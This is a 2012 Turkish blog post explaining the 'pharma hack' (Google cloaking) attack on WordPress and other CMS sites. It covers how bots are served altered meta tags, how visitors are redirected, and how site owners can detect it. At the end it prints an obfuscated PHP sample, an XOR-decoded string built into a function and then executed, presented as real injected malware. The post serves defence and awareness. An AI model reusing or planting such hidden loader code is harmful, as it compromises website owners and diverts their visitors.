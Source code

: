 ```yaml
---
title: "Pharma hack (Google Cloaking Hack) nedir?"
slug: pharma-hack-google-cloaking-hack-nedir
date: 2012-01-02
url: http://mfyz.com/tr/pharma-hack-google-cloaking-hack-nedir/
tags: ["cloak","cloaking","google","hack","pharma","php","seo","Sunucu Programlama","wordpress"]
category: Sunucu Programlama
migration: {"wpId":159,"wpPostDate":"2012-01-02T03:09:02.000Z"}
lang: tr
---
```


#### Pharma hack nedir?

Pharma hack bır çeşit SEO saldırısıdır. Asıl adı Google Cloaking Hack'dır. Sitenizi html çıktısını kullanıcıya göre manipüle etmek üzerine kuruludur. Pharma hack adını genellikle internette cinsel sağlık ürünleri veya besin takviyesi satan şirketlerin bu hack ile trafik kazanmaya çalışmasından almıştır. Yani bu hack sadece sitenizin arama motoru trafiğini kesmez. Tabi siz analitics yazılımlarda bir trafik kaybı görmezsiniz. Sadece bounce rate'iniz her gün yükselir ve dış trafiğiniz artar. Bu da pagerank'ınızı kaybetmeninizi sağlayabilir. Büyük tehlike ise sitenizin sansürlenmesi. Türkiye'de son dönemde birçok sitenin/blogun sansürlerden dolayı engellendiğini görüyorsunuz. Bu filtreler genelde halka açık ortamlar, eğitim kurumları gibi alanlarda çok daha etkin. Yani zararsız bir siteye sahip olsanız bile bu hack ile MEB ve BTK'nın google indeksleri ile edindiği site bilgisi genelde cinsel sağlık ürünleri olacağı için muhtemelen siz o içeriğe sahip olmasanız bile okullar, internet cafe'ler gibi yerlerden otomatik olarak filtrelenmiş olacaksınız.

#### Nasıl oluyor?

Pharma hack sitenize doğrudan ziyaretle anlayamayacağınız bir saldırıdır. Siteniz doğrudan gelen ziyaretçilere normal çıktısını verir ve tarayıcıda doğrudan sitenize giren insanlar sitenizi görmeye devam ederler, böylece siz de anlamazsınız pharma hack altında olduğunuzu. Ama arama motoru botları sitenizi taramaya çalıştığı zaman sitenizin hack kodu sitenizin sayfa başlığı, anahtar kelimeleri gibi meta etiketlerini değiştirip sayfa içeriğinde istedikleri anahtar kelimeleri de ekleyerek sitenizin çıktısını manipule eder. Böylece pagerank'ınızı kullanarak arama motorlarından gelen trafiğinizi çalarlar. Böylece sitenize ait tüm google indeksleri bir sonraki güncellemede o anahtar kelimeleri alır. Eğer siteniz yüksek page rankına sahipse o anahtar kelimelerde üst sıralarda çıkar ve kullanıcı linke tıkladıgı zaman sayfanızdaki ufak bir javascript kodu kullanıcıyı başka bir sunucuya yönlendirir. Arama motoru trafiğiniz yanlış içerikle sunulur ve kısaca arama motoru trafiğiniz başka bir siteye yönlendirilir.

#### Sitenizde pharma hack var mı?

Sitenizi sayfaları kontrol ederek pharma hack olup olmadığını anlayamazsınız. Birkaç yolu var; 1) Tarayıcınızın User Agent'ını GoogleBot olarak değiştirip sitenize girebilir, sayfalarınız öyle kontrol edebilirsiniz. 2) Google Webmaster Tools'a kayıt olup sitenizi ekleyip google botun sitenizi nasıl taradığını görebilirsiniz. Googlebot site sitenizin verdiği HTML çıktısını gösterecektir. Meta etiketlerinizi ve sayfa içeriğinizi kontrol edip fakrlı olup olmadığını görebilirsiniz.

#### Ne tür uygulamalarda yapıyorlar?

Benim gördüğüm örnekleri popüler php hostinglerde ya sunucu kontrolünü ele geçirdikten sonra tüm hesaplara ya da sadece sizin hesabınızı ele geçirdilerse sizin hesabınızda yapılan birkaç ufak php numarasıyla sayfalarınızı arama motoru botlarında farklı render etme üzerine kuruludur. Eğer bir wordpress bloguna veya joomla, drupal gibi bir CMS kullanıyorsanız muhtemel olarak tehlike altındasınız demektir çünkü ele geçirilmesi, gizlenmesi en kolay ve hackerların hedef kitlesidir. Örnek bir pharma hack kodu göstermem gerekirse:
```
$check\_tmg\_password\_reset\_key = 'QN9Mrh7F=4?C!N^NP.NJ16YH6K66G=+BOeHeQ7D?A!"
CMD$JT,UTP@#3kSZ=j8;>?=B5$(v+}k~)tKkwz6puT|\_P{-\[11):V;Hblc<eyfau+Z4r29\[dID2ThIY.E^A|AHcN@E-
woZPd'^'48X!Z(P<TZY/@:;f6G"/nQ<<i(YX3XE6<MjJ9X)ZnLD:7kE.9E;z=&ZIE05PEHZ
PZQmyMJY{5;\*h8d;?\*b19{,7 Tl/EC@X#O-M<+l18\*N\[X,Z\]FT+K96\]$E+8\] 
q##t{R\`0+JUFsy\_';
$make\_ao\_site\_theme\_from\_oldschool = '"\`E\`\`e\_Fe$"dai.'|'Are!t!Y tncT)oF';

$wp\_rzc\_newPage = $make\_ao\_site\_theme\_from\_oldschool('',$check\_tmg\_password\_reset\_key);
$wp\_rzc\_newPage();

```
Bu kod wordpress bloglar için özellikle yazılmış bir pharma hack kodu. Genelde sitenizde her sayfada çalıştırılan bir dosyada yer alırlar. (bootstrap.php, common.php, db.php vs...)